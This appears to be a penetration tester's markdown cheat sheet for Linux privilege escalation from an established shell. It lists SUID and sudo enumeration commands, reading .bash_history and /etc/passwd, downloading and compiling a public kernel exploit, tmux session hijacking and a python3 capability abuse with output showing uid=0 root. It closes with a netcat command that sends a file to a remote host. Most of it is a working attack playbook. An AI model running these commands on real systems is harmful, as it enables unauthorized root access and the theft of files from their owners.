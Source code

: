
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - find / -type f -perm -u=s -exec ls -ldb {} \; 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd    
    - Using kit
        - [linpeas.sh] Auto Vector Finding
- Maintain Access    
TOOLS
- Exploit
- GTFOBins
- Python Library Hijacking
- Environment variables
OUPUT:
- root shell


## Exploit
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2014-4014]
    https://www.exploit-db.com/exploits/33824
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable
[tmux]
    tmux -S default attach
[Capability]
    getcap -r / 2>/dev/null
        /home/kiba/.hackmeplease/python3 = cap_setuid+ep
        /usr/bin/mtr = cap_net_raw+ep
        /usr/bin/traceroute6.iputils = cap_net_raw+ep
        /usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
    cd /home/kiba/.hackmeplease    
    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    id
        uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

## Transferring file using Netcat:
- remote host           nc 10.8.56.2 443 < file
- local host            sudo nc -lvnp 443 > file




